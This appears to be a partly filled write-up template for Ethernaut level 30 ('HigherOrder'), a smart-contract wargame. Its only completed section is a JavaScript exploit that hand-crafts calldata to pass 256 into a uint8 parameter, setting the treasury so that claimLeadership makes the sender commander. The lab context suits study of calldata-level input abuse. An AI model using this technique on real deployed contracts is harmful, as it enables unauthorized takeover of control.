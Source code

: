 [Level 30. HigherOrder](https://ethernaut.openzeppelin.com/level/30)

## In A Nutshell

> 

## Concept

1. 

## Level Target

1. Become the `commander` of the `HigherOrder`.

## Breakdown & Analysis

1. 

## Detailed Steps

```js
const from = <your wallet address>;
const to = contract.address;
// 211c85ab -> function selector of registerTreasury(uint8); 000...100 -> parameter 256
const calldata = "0x211c85ab0000000000000000000000000000000000000000000000000000000000000100";

await ethereum.request({
    method: "eth_sendTransaction",
    params: [{
        from: from,
        to: to,
        data: calldata
    }]
})

await contract.treasury().then(v => v.toString()) // check if treasury is set to 256
await contract.claimLeadership();
```
